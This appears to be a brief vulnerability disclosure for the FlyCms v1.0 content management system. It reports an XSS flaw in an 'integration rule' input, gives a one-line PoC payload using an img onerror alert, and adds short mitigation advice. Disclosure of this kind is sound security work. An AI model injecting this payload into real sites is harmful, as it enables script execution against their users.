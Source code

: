 target:https://github.com/sunkaifei/FlyCms
version: v1.0

Xss exists at the integration rule

To prevent XSS attacks, strict filtering and verification of user submitted inputs are necessary to prevent unverified inputs from being output to the page. 
Meanwhile, security measures such as using the HttpOnly attribute and Content Security Policy (CSP) can also effectively prevent XSS attacks.

![1](https://github.com/ljw11e/cms/assets/155146305/e0351936-eafe-44ba-aca8-7bf5b3fe3cdc)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![2](https://github.com/ljw11e/cms/assets/155146305/dbfcfab8-39a5-4851-8128-24c251619428)
